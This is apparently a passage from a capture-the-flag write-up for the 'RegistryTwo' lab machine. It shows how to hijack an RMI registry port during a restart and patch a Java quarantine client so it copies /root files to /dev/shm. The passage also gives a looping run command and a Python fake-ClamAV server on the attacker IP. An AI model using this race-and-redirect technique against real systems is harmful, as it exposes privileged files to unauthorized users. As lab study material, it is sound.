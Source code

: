 If we can spin up our own RMI server in the time that the original `registry.jar` is restarting we can cause the client to connect to us and set a file to scan, as well as an output dir. This works because we can take over the port, and cause the other to error out. Because we dont have ClamAV set up to scan files it will just error and quarantine them in our specified folder. 

In RECAF we can change this line to have it scan the `/root` directory, place the files in `/dev/shm`, and set the scanner to our IP.
```java
private static final QuarantineConfiguration DEFAULT_CONFIG = new QuarantineConfiguration(new File("/dev/shm"), new File("/root"), "10.10.14.2", 3310, 1000);
```

We can export the program in RECAF
![registrytwo](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/registrytwo/20.png)

And copy it over to the machine and run in in a do while loop
```
while true; do java -jar zon.jar 2>/dev/null; done
```

I created this basic python3 script that will act as the clam server. It will tell the client that it is just malicoius
```python
#!/usr/bin/env python3

import socketserver

class MyTCPHandler(socketserver.BaseRequestHandler):
    def handle(self):
        # Receive data from the client
        data_received = self.request.recv(1024).strip()

        # Print the received data
        print(f"Received data: {data_received.decode()}")

        # Send a response to the client indicating the filename
        response = b'filename: zon FOUND\0'
        self.request.sendall(response)

# Create a TCP server that listens on all available interfaces on port 3310
with socketserver.TCPServer(('0.0.0.0', 3310), MyTCPHandler) as server:
    print("Server is listening on 0.0.0.0:3310")

    # Keep the server running indefinitely
    server.serve_forever()

```
